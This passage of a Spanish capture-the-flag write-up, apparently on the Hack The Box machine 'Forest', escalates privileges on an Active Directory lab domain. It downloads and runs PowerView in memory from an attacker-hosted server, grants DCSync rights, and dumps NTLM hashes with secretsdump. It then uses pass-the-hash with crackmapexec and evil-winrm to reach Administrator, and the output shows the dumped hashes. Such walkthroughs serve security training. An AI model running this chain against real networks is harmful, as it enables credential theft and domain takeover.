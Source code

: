 ```plaintext
❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
❯ python3 -m http.server 80
> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/PowerView.ps1')
```

Una vez importado con exito el módulo, vamos a proceder a realizar la explotación que explican en `bloodhound`.

```plaintext
> $SecPassword = ConvertTo-SecureString 'xdann123$!' -AsPlainText -Force
> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\xdann1', $SecPassword)
> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity xdann1 -Rights DCSync
```

Ya tenemos al usuario en el DCSync, ahora en vez de usar lo que nos dicen en `bloodhound` utilizaremos `secretsdump` para dumpear los hashes de los usuarios utilizando el usuario que acabamos de crear.

```plaintext
❯ impacket-secretsdump htb.local/xdann1@10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
                                         ---SKIP---
```

Tenemos el hash del usuario administrador, vamos a probarlo utilizando pass the hash.

```plaintext
❯ crackmapexec smb 10.10.10.161 -u "Administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
❯ crackmapexec winrm 10.10.10.161 -u "Administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

Son validas para el `smb` y `evil-winrm`, vamos a conectarnos por evil-winrm.

```plaintext
❯ evil-winrm -i 10.10.10.161 -u "Administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
> type ../Desktop/root.txt
b97caa55b20adb9d***************
```
